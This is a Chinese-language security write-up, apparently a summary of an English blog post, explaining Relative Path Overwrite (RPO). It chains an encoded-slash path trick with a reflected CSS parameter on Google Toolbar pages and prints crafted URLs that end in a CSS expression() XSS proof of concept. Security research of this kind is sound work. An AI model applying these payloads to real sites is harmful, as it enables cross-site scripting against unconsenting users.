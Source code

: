 #原文链接
`https://blog.innerht.ml/rpo-gadgets/`

#正文
首先先说什么是RPO(Relative Path Overwrite)相对路径覆盖，在Google的工具栏中找到了一个页面`http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html`
其中存在RPO的漏洞代码是
```html
<html>
<head>
<title>Google Toolbar API - Guide to Making Custom Buttons</title>
<link href="../../styles.css" rel="stylesheet" type="text/css" />
[..]
```
存在问题的是link标签中的**../../styles.css**这是通过相对路径进行加载，当这样的时候我们吧目光转移到服务器的解析上，不同的服务器都有不同的解析特点，比如JSP的`;`当JSP解析遇到了分号之后后面的都是作为参数，而浏览器会当作路径
`https://test.com/Jsptest/aaa;/test`此时浏览器会认为还有一个test在aaa目录下。这里还要说一下浏览器的处理对于目录浏览器用`/`分隔，下面吧上面的内容带到实力中

在google的工具栏中也有解析的特点
`http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html`服务器处理的时候会对请求路径的内容进行解码，也就是说`2f`会被当作`/`解析然而浏览器不这么想，它认为`apis%2fhowto_guide.html`是一个文件，而这个时候再去执行
```html
<link href="../../styles.css" rel="stylesheet" type="text/css" />
```
他就会去`http://www.google.com/tools/`下寻找`styles.css`这样还是没啥意义的
##峰回路转
`http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html`我们可以发现有一个/fake/..%2f这样的话还是会访问到`howto_guide.html`而且还可以让浏览器认为自己在`/tools/fake/`浏览器就会加载`http://www.google.com/tools/fake/styles.css`也就是说我们可以加载`http://www.google.com/tools/*/styles.css`

#组合
在寻找敏感Endpoint的时候发现了这个`http://www.google.com/tools/toolbar/buttons/gallery`当你访问的时候会跳转到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1`这里刚刚好符合我们的利用条件即在tools目录下面。
然而这个Endpoint还有一个有趣的点就是`q`参数，当我们访问`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q={}*{backgound:red}`
![PIC](https://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/RPO/css-red.png)
这里就是一个可以反射的点了，那么我们怎么才能让这两个点相结合呢
当我们访问`http://www.google.com/tools/toolbar/buttons/gallery?q={}*{backgound:red}`有参数的时候就会跳转到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q={}*{backgound:red}`
那么万事俱备了，我们需要的就是从刚刚的地方去利用RPO漏洞与这个端点结合

#利用
`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html`

```
/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/../../style.css
浏览器会认为目前在的目录是apis向上之后就到了 下面的
--->

/tools/toolbar/buttons/gallery?q=%0a{}*{background:red}/style.css
访问之后会跳转到

-->

/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css

```
这是我们的
```html
<link href="../../styles.css" rel="stylesheet" type="text/css" />就变成了
<link href="/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css" rel="stylesheet" type="text/css" />
就把{}*{background:red}包含了
```
将 payload修改为XSS的payload`expression(alert(document.domain))`就可以完成一次XSS攻击了
#最终payload
`
http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bx%253Aexpression(alert(document.domain))%257D/..%2f/apis/
`
![PIC](https://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/RPO/alert.png)

#总结
看都会一脸蒙蔽可见挖掘的过程有多复杂，我一直在路上！
